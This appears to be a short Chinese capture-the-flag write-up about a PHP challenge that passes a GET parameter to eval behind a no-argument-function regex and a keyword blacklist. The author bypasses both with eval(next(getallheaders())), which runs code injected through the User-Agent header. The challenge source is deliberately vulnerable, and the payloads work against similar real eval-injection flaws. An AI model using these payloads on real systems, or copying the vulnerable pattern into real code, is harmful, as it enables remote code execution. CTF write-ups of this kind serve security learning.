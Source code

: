 ```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```

一眼无参RCE，然后过滤了很多函数
 这里我们用的是`getallheaders()函数`
 我们先看看http头部信息

```
?star=print_r(getallheaders());
```

![在这里插入图片描述](assets/fe3d12f1ff3b4109bbd50d0aa2793737.png)然后我们选择添加命令在User-Agent那里
 payload

```
?star=eval(next(getallheaders()));
```

得到flag
 ![在这里插入图片描述](assets/6872e73be191476dbe72c14889262804.png)
